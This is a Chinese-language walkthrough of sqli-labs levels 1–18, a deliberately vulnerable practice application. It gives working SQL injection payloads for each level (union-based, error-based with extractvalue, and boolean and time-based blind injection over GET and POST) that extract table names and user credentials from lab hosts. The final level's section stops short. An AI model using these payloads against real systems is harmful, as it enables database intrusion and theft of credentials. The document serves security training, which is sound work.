





# sqli-labs

## Less-1( 字符型union)



打开hackbar输入?id=1


加个单引号之后报错，存在注入点且为字符型注入



使用group by查出有三列内容


把id改为0，并且使用union select来判断回显位置



```mysql
?id=0' union select 1,database(),version()--+
爆出数据库名为security，版本为5.7.26
```

```mysql
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
爆出的表有emails,referers,uagents,users，其中users有用
```

```mysql
id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
爆出users表中有三列内容id,username,password
```

```MYSQL
?id=0' union select 1,group_concat(username,'~',password),3 from users--+
直接爆出用户名和密码
```

## Less-2(数字型union)

这关为数字型注入，和Less-1一样的步骤，只不过不需要用单引号来闭合

```MYSQL
?id=0 union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-3(字符型union)

这关为字符型注入，只不过多了一个单括号

```mysql
http://127.0.0.1/sql/Less-3?id=0') union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-4(字符型union)

这关为字符型注入，形式变为双引号加单括号

```mysql
http://127.0.0.1/sql/Less-4?id=0") union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-5(报错注入)

```mysql
首先确定为字符型注入，然后使用group by确定列数，再使用union select 1,database(),3--+发现没有回显，于是可以使用报错注入
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+ 
爆数据库名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3--+ 
爆表名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3--+
爆users表列名 
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
爆信息，但是由于报错注入只能返回32个字符，所以要使用substring
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))),3--+ 
substring使其从第25个字符开始往后再显示30个字符，再拼接起来就得到了所有用户名和密码
```

## Less-6(报错注入)

```mysql
和Less-5几乎一模一样，只需要把单引号改为双引号就行
http://127.0.0.1/sql/Less-6?id=0" union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
```

## Less-7(盲注)

```mysql
http://192.168.88.133/sql/Less-7?id=1'
报错，后面加--+依旧报错，改为'))后发现不报错了，此时便可开始注入
?id=1'))and length((select database()))>9--+
判断数据库名长度
?id=1'))and ascii(substr((select database()),1,1))=115--+
一个一个判断数据库的名字
?id=1'))and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
判断所有表名字符长度
?id=1'))and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
逐一判断表名
然后就是判断字段名，再逐一爆出字段内的内容，即username和password
很费时间！！！
```

## Less-8(盲注)

```mysql
和第七关差不多，将'))换成'就行
```

## Less-9(时间盲注)

```mysql
本题使用时间盲注的方法
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select database()),1,1))>100,sleep(0),sleep(3)) --+
爆出数据库名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),1,1))>100,sleep(0),sleep(3)) --+
爆表名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users'),1,1))>100,sleep(0),sleep(3)) --+
爆列名
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select group_concat(username,'~',password) from users),1,1))>100,sleep(0),sleep(3)) --+
爆信息
```

## Less-10(盲注)

```mysql
与Less-9一致，将单引号改为双引号即可
```

## Less-11(POST union)

```mysql
POST注入，单引号闭合，使用union select即可
```

## Less-12(POST union)

```mysql
POST注入，闭合方式为")，使用union select即可
```

## Less-13(POST 报错)

```mysql
首先找到闭合方式为')
输入') union select 1,2 # 发现没有回显，那么尝试报错注入
') union select 1,extractvalue(1,concat('~',(select database()))) #
```


```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #
爆表
```

```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) #
爆列名
```

```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),1,30) from users))) #
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),25,30) from users))) #
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),50,30) from users))) #
爆出全部信息
```

## Less-14(POST)报错

```mysql
passwd=admin&uname=admin"#
判断出闭合方式是"，同时没有回显，那么接着报错注入
passwd=admin&uname=admin" union select 1,extractvalue(1,concat('~',database())) #
```


接下来步骤就和Less-13一样了

## Less-15(POST 盲注)

```mysql
判断闭合方式为'，但是没有回显，尝试报错注入也并没有报错信息，那么使用盲注手法
页面会显示true和false，那么选择布尔盲注
passwd=admin&uname=admin' and ascii(substr((select database()),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>100 #
passwd=admin&uname=admin' and ascii(substr((select group_concat(username,'~',password) from users),1,1))>100 #
```

## Less-16(POST 盲注)

```mysql
根据页面为true还是false判断闭合方式为")，报错没有回显，依旧是布尔盲注
```

## Less-17(报错注入)

```mysql
这一关首先要输入正确的用户名，之后才能对password进行注入，union走不通，那么尝试报错注入
uname=admin&passwd=admin' and extractvalue(1,concat('~',database())) #
```



```mysql
有报错回显，那么直接拿表和列就行了
```

```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))#
```

```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(username) from users)))#
```


```mysql
mysql中一个语句中不能先select表中的某些值，再update这个表，所以报错了，那么就使用(select username from users)a替换掉users来绕过
```

```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(username) from (select username from users)a)))#
```

## Less-18(uagent注入)

```mysql
在输入admin和admin之后页面呈现为这样，看到user agent，那么可以尝试用uagent注入
```



